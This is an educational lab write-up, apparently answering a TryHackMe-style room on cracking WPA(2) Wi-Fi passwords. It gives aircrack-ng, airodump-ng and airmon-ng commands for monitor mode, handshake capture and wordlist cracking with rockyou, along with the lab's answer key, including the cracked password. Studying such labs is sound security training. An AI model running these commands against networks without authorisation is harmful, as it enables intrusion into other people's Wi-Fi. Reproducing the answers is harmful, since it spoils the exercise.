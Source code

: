```
author: 0xUu
date: Jun 11th, 2024
topic: Learn to attack WPA(2) networks! Ideally you'll want a smartphone with you for this, preferably one that supports hosting wifi hotspots so you can follow along.
```

# Task 1. The basics - An intro to WPA

* What type of attack on the encryption can you perform on WPA(2) personal?
```
answer: brute force
```

* Can this method be used to attack WPA2-EAP handshakes? (Yea/Nay)
```
answer: Nay

why? The key used in WPA2-EAP is derived from the EAP authentication process, making it much harder to crack compared to pre-shared keys used in WPA2-PSK.
```

* What three letter abbreviation is the technical term for the "wifi code/password/passphrase"?
```
answer: PSK
```

* What's the minimum length of a WPA2 Personal password?
```
answer: 8
```

# Task 2. You're being watched - Capturing packets to attack

We'll want to use aircrack-ng, airodump-ng and airmon-ng to attack WPA networks.


* How do you put the interface “wlan0” into monitor mode with Aircrack tools? (Full command)
```bash
# you have to run it as root
airmon-ng start wlan0
```

* What is the new interface name likely to be after you enable monitor mode?
```
wlan0mon
```

* What do you do if other processes are currently trying to use that network adapter? 
```bash
airmon-ng check kill
```

* What tool from the aircrack-ng suite is used to create a capture?
```
airodump-ng
```

* What flag do you use to set the BSSID to monitor?
```
--bssid
```

* And to set the channel?
```
--channel
```

* And how do you tell it to capture packets to a file?
```
-w
```

# Task 3. Aircrack-ng - Let's get cracking

* What flag do we use to specify a BSSID to attack?
```
-b
```

* What flag do we use to specify a wordlist?
```
-w
```

* How do we create a HCCAPX in order to use hashcat to crack the password?
```
-j

bonus-info 1: An HCCAPX file is a format used by hashcat, a popular password cracking tool, to store the captured WPA/WPA2 handshake along with the EAPOL authentication messages. 

bonus-info 2: EAPOL (Extensible Authentication Protocol over LAN) authentication messages are used in WPA/WPA2-protected Wi-Fi networks to facilitate the authentication and key management process between a client device and an access point. (exchanged during the the 4-way handshake)
```

* Using the rockyou wordlist, crack the password in the attached capture. What's the password?
```
answer: greeneggsandham

command: aircrack-ng -b 02:1A:11:FF:D9:BD -w /usr/share/wordlists/rockyou.txt NinjaJc01
```

* Where is password cracking likely to be fastest, CPU or GPU?
```
GPU
```

